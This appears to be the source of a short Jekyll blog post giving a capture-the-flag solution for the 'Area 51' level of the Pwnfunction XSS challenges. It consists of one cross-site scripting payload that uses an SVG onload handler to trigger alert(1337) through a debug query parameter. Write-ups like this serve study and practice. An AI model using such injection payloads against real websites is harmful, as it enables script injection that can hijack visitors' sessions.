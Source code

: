 ```yaml
---
layout: post
title: 'XSS Pwnfunction | Challenges'
permalink: /ctf/xss-pwnfunction/challenges/
---
```


# Area 51
{% highlight html %}
?debug=&lt;?php&gt;&lt;&lt;svg%20onload=alert(1337)&gt;
{% endhighlight %}
